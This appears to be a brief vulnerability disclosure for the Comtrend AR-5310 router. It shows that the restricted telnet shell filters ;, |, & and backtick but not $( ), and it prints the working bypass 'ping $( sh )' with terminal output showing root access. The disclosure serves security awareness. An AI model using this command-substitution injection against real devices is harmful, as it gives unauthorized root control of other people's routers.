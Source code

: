 **Disclaimer: All content here is to raise awareness and is not intended for malicious use.**

Vulnerable product: Comtrend AR-5310 , firmware version: GE31-412SSG-C01_R10.A2pG039u.d24k

TL;DR: A local user can bypass the restricted shell using the command substitution operator $( commmand )

Comtrend AR 5310 routers have a restricted shell, the list of commands a user can execute is

[ ? help logout exit quit reboot ads lxdslctl xtm loglevel logdest virtualserver ddns dumpcfg 
dumpmdm meminfo psp dumpsysinfo dnsproxy syslog ifconfig ping sntp sysinfo tftp wlan wlctl
vlanctl arp defaultgateway dhcpserver dns lan lanhosts passwd ppp restoredefault route
nslookup traceroute save uptime exitOnIdle wan build version serialnumber modelname acccntr
upnp urlfilter timeres tr69cfg logouttime ipneigh dhcp6sinfo nat mcpctl ]



Usual terminal constructs like:
 - the command separator ";" 
 - the control operator  "&"  (run in forground) 
 - the process communication operator (pipe) "|" 
 - the command substitution operator "`"
 
are all filtered as shown here :
```
 > ;
Warning: operator ; is not supported!
telnetd:error:476.449:processInput:490:unrecognized command 
 > |
Warning: operator | is not supported!
telnetd:error:484.871:processInput:490:unrecognized command 
 > &
Warning: operator & is not supported!
telnetd:error:487.421:processInput:490:unrecognized command 
 > `
Warning: operator ` is not supported!
telnetd:error:495.334:processInput:490:unrecognized command 
```

Still the $ operator is not filtered:
```
 > $
telnetd:error:497.862:processInput:490:unrecognized command $
```

Here i came to the conclusion that invoking a command with $( subcommand ) as argument would 
give an obvious shell
```
> ping $( sh )                                                              
exec >&2                                                                     
ps x | grep telnet                                                           
18333 root      4164 S    telnetd -m 0                                       
18334 root      4168 S    telnetd -m 0                                       
```

**EOF**

